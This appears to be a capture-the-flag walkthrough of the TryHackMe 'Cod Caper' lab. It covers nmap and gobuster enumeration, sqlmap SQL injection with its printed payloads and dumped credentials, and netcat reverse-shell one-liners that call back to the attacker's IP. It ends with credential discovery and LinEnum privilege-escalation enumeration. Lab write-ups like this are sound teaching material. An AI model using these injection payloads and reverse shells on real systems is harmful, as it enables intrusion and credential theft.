 # The Cod Caper

## Task 1: Intro
pingu story

## Task 2: Host Enumeration
`nmap -sC -sV -A 10.10.40.189`

-A: Enable OS detection, version detection, script scanning, and traceroute

-sC: equivalent to --script=default

-sV: Probe open ports to determine service/version info

**Scan Results**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-31 09:48 IST
Nmap scan report for 10.10.40.189
Host is up (0.21s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.68 seconds
```
### 1. How many ports are open on the target machine?
2 (ssh, http)

### 2. What is the http-title of the web server?
Apache2 Ubuntu Default Page: It works

### 3. What version is the ssh service?
OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

### 4. What is the version of the web server?
Apache/2.4.18

## Task 3: Web enumeration
Using the [suggested wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/big.txt).

run: `gobuster dir -u 10.10.16.135 -w "path/to/wordlist.txt" -x "html,php,txt"`

It was around 10% way of searching when it got this!

### 1.  What is the name of the important file on the server?
/administrator.php

## 4. Web Exploitation
login form -> sql injection?

run `sqlmap -u http://10.10.16.135/administrator.php --forms --dump`

-u: url

--forms: gets parameters from `form` element in the page

--dump: gets data once SQLI(SQLInjection) is found


We now get this from sqlmap:
1. 3 kinds of blinds
```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=gbXk' RLIKE (SELECT (CASE WHEN (1352=1352) THEN 0x6762586b ELSE 0x28 END))-- MeOd&password=

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: username=gbXk' AND GTID_SUBSET(CONCAT(0x71716b6b71,(SELECT (ELT(9508=9508,1))),0x716b6a7171),9508)-- BmZK&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=gbXk' AND (SELECT 6145 FROM (SELECT(SLEEP(5)))TqbZ)-- sWNA&password=
---
```
2. Database entries 

Database: users

Table: users

[1 entry]

| password | username |
| - | - |
| secretpass | pingudad |

### 1. What is the admin username?
pingudad

### 2. What is the admin password?
secretpass

### 3. How many forms of SQLI is the form vulnerable to?
3

## 5. Command Execution
link where we put commands: `http://IP/SOME_NUMBER.php`

we now run: `nc -nlvp 4242` on our machine, to listen for connections

-l: listen mode, for inbound connects

-n: numeric-only IP addresses, no DNS

-p: local port number

-v: verbose

and run this command in the administrator command box: `nc -e /bin/sh YOUR_IP 4242`

well. that didn't work. let's try: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP 4242 >/tmp/f`

[Source](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[Source](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional)

Quick Tip: Get you ip by typing in `ifconfig`. Since we have connected to a VPN, we have to look at `tun0`. run: `ifconfig tun0` and the `destination` is your IP address. 

If that sounds complex, go to https://tryhackme.com/access with VPN connected, and it'll show you want you need.

Quick Note: you can choose any port, 4242 is arbitary :P

### 1. How many files are in the current directory?
run `ls` in the command form (even before we get access)

3

### 2. Do I still have an account?
`cat /etc/passwd` shows `pingu:x:1002:1002::/home/pingu:/bin/bash` at the end.

yes

### 3. What is my ssh password?
Traversing through the directory we have a user named `pingu`, and in the `.ssh` folder, we have `id_rsa` and `id_rsa.pub`. This is interesting.
But, for now lets focus on getting the password. Trying to seach using `find -u pingu` yields nothing. however, going around the directory we landed into shows a `hidden` folder; inside is our password! Its owned by `www-data` though ... hmmm ....

pinguapingu

### Having fun
running `ssh pingu@IP` gives us access to the machine, using the password above. and ... well maybe i got too excited

```
pingu@ubuntu:~$ sudo su
[sudo] password for pingu: 
pingu is not in the sudoers file.  This incident will be reported.
```

lmao


## 6. LinEnum
We need to get the linenum file into pingu's machine now. how? the room mentions using `SCP` which we can do since we have ssh-ed into the machine.

After copying using: `scp /path/to/LinEnum.sh pingu@IP:/tmp`, just do `chmod +x LinEnum.sh` and run.

### 1. What is the interesting path of the interesting suid file?
/opt/secret/root
